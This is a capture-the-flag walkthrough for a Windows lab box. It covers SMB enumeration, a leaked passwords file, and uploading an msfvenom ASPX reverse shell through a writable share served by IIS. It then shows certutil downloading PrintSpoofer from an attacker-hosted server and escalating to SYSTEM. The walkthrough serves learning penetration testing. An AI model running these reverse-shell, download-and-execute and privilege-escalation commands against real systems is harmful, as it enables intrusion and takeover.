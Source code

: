 Use https://github.com/dievus/threader3000 to do port scan and later scan with nmap for detailed scan:
```sh
threader3000
```

While it's running and shows some of the open ports we can parallely start looking at some of the ports. E.g. smb is open. Use smbclient to enumerate:
```sh
smbclient -L \\\\10.10.230.202
```

We get shares as below:

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/df603222-2a58-4770-b6f6-60cd76fe7c74)    

We got a web share nt4wrksv. We can try to access it like below:
```
smbclient \\\\10.10.230.202\\nt4wrksv
smb>dir
smb>more passwords.txt
```

We can try evil-winrm with these credentials:
```
evil-winrm -i 10.10.230.202 -u 'Bob' -p '!P@$$W0rD!123'
```

We see that it's not a good credentials. So we have to realise that there could be some misdirections and at some point we have to try something else.

If we run the nmap scan suggested by threader3000, we see that there is one more port (49663) that is running IIS. We can eumenrate that and try gobuster.
Running gobuster reveals nt4wrksv directory and has passwords.txt file. Which is interesting, we can try uploading our own file using smb and see if we can access
it through webserver. So effectively we have uploads right to webserver.

We can use this website to build msfvenom command:
https://pentest.ws/tools/venom-builder

```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.131.125 LPORT=4444 -f aspx -o rev.aspx
```

We get a reverse shell if we access this file from web. If we do whoami, we see below:
```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

In windows there was a vulnerability discovered calle [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), which is a vulnerability in windows server 2016, 2019 and windows 10, that allowed service accounts to on occasion be able to access the system user. Microsoft thought that it was important for certain service accounts to be able to do so. The way they do that is through **SeImpersonatePrivilege**. We can check if our account has that:
```
c:\windows\system32\inetsrv>whoami /priv
```

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/f6270bee-9a1c-4b3b-bc8d-cd83458791fb)

So what we can do is on attacker machine download printspoofer.exe and serve using python htttp server and from reverse shell run below:
```
c:\windows\system32\inetsrv>cd C:\intetpub\wwwroot
c:\intetpub\wwwroot>certutil -urlcache -f http://10.10.131.125:8000/PrintSpoofer.exe printspoofer.exe
```

Or use smbclient and push:
```
smbclient \\\\10.10.230.202\\nt4wrksv
smb>put PrintSpoofer.exe
```

Then run printspoofer from reverse shell like below:
```
c:\intetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
```

Goal of this challenge is "Try harder mentality only goes so far". You can't try harder for forever eventually you need to adapt to your findings and try something else.
